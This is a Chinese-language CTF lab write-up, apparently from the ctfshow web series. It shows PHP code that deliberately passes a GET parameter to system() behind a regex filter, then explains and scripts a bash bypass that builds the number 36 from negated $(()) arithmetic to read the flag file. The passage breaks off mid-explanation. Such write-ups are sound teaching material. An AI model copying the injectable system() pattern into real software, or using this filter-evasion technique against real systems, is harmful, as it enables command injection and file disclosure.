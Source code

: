 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}

```

分析源码

提示flag在36.php中

过滤了

;

小写字母

数字

`

\

#

'

"

%

\x09

\x26

\x0a

\>

\<

.

,

?

*

-

=

[





并且ystem中已经拼接了cat和php

因此我们传入36即可



但是数字被过滤了



没有过滤+和~

因此可以利用取反



首先要理解

```
$(())
```

在linux中表示0

![image-20250404142804343](./assets/image-20250404142804343.png)

则对$(())取反表示-1

```
$((~$(()))) 
```

![image-20250404142826579](./assets/image-20250404142826579.png)





则我们可以拼接37个-1，最后对其取反得到36



执行shell脚本

![image-20250404143708800](./assets/image-20250404143708800.png)

![image-20250404143713655](./assets/image-20250404143713655.png)



分析一下shell脚本

```
#!/bin/bash
result=""
for i in `seq $(($1 + 1))`;do
        result+="\$((~\$(())))"
done

result_1="\$(($result))"
result_2="\$((~$result_1))"
echo $result_2
```



传入要生成的数字，这里我们要拼接36，因此传入36

循环36+1次

即拼接-37

但是第一次result运行的结果是-1-1-1-1这种格式

![image-20250404143916302](./assets/image-20250404143916302.png)

因此在外面拼接一个$(())用于计算结果，赋值给result_1

然后对该结果取反，赋值给result

